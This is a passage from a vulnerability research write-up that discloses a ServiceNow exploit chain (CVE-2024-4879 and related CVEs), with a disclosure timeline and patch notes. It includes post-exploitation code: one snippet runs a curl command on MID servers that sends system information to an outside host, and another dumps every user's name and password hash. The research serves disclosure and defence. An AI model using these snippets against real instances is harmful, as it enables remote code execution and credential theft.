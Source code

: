     
    
    p = SncProbe.get("Command");
    p.setName("curl http://my.honeypot.server.example/?x=$(uname -a|base64 -w0)");
    p.create("*");

This will run the command once on every MID server configured. Using Burp
Suite we can verify we can access anything:

In the case that no MID server is configured, we can instead access the user
DB of the instance with the following commands:

    
    
    gr=new GlideRecord("sys_user");
    gr.query();
    s="";
    while(gr.next())s=s.concat(gr.user_name," : ",gr.user_password,"<br/>");
    gs.addErrorMessage(s);

This accesses the password hashes of every user on the instance:

(As a side note, it appears the only 'real' accounts are `admin` and
`aes.creator` \- the other accounts in this table seem to have dummy data in
their password hash field, likely due to being sample data within a ServiceNow
dev instance).

### Conclusion

We disclosed this chain of vulnerabilities to ServiceNow on the 14th of May,
2024.Â

  * For [CVE-2024-4879](https://www.cve.org/CVERecord?id=CVE-2024-4879) ServiceNow has already applied an update to customers. They also provide an extensive list of patched versions and hot fixes, which customers may already be on now.
  * For [CVE-2024-5178](https://www.cve.org/CVERecord?id=CVE-2024-5178) ServiceNow has applied patches to customers in June. They also provide an extensive list of patched versions and hot fixes for any customers who might have opted out of patching in June.
  * For [CVE-2024-5217](https://www.cve.org/CVERecord?id=CVE-2024-5217) ServiceNow applied patches to customers in June. They also provide an extensive list of patched versions and hot fixes for any customers who might have opted out of patching in June.

While ServiceNow implemented several mitigations to address the risk of double
evaluation in the templating system, we found a way to achieve code execution.
Even with more mitigations in place, it only takes a single unescaped
injection point to risk code execution.

As always, customers of our [Attack Surface Management
platform](https://assetnote.io/) were the first to know when this
vulnerability affected them. We continue to perform original security research
in an effort to inform our customers about zero-day vulnerabilities in their
attack surface.

Written by:

Adam Kues

Your subscription could not be saved. Please try again.
